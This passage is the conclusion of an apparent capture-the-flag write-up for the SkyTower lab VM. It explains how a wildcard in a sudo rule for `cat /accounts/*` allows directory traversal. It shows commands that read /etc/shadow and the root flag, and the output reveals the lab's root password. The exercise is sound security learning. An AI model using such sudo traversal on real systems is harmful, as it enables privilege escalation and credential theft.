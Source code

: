 This user may execute some commands as root using `sudo`. `sudo` allows you to specify what those commands are, if not all. There was one problem with this configuration though. `*` is a wildcard character, and as such, anything after `cat /accounts/` may also be run. This means that things like `sudo cat /accounts/../../etc/shadow` will work as the wildcard allows us to do a form of directory traversal.

## pwnd

So, to complete SkyTower:

```bash SkyTower pwn
sara@SkyTower:~$ sudo cat /accounts/../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```

Thanks to [@telspacesystems](https://twitter.com/telspacesystems) for the fun experience. I learnt something so for this was totally worth it!
